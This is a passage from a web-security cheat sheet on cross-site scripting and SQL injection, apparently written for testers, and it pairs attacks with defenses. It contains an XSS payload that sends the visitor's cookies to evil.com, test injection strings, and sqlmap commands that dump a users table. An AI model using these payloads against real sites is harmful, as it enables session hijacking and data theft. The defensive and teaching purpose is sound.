 ### Impact

* Session hijacking
* Keystroke logging
* Fake login pages
* Internal network scanning
* Cookie theft:

```html
<script>document.location='http://evil.com/save?c='+document.cookie</script>
```

### Testing and Defense

* Use fuzzing strings: `<script>alert(1)</script>` or `'';!--"<XSS>=&{()}`
* Sanitize/encode input and output
* Set HTTPOnly and Secure flags on cookies
* Apply Content Security Policy (CSP):

```bash
wget --server-response http://site.com 2>&1 | grep -E "Content-Security-Policy|Set-Cookie"
```

---

## SQL Injection (SQLi)

### Concept

* Unsanitized input modifies backend SQL queries
* Common in GET/POST requests or form inputs

### Testing

```sql
' OR '1'='1
--
" OR 1=1
```

### Enumeration with Sqlmap

```bash
sqlmap -u "http://site.com/page.php?id=1" --dbs
sqlmap -u "http://site.com/page.php?id=1" -D db --tables
sqlmap -u "http://site.com/page.php?id=1" -D db -T users --columns
sqlmap -u "http://site.com/page.php?id=1" -D db -T users --dump
```

### Defense

* Use parameterized queries / prepared statements
* Least-privilege DB accounts
* Monitor for SQL errors and anomalies
* Consider WAF like ModSecurity

---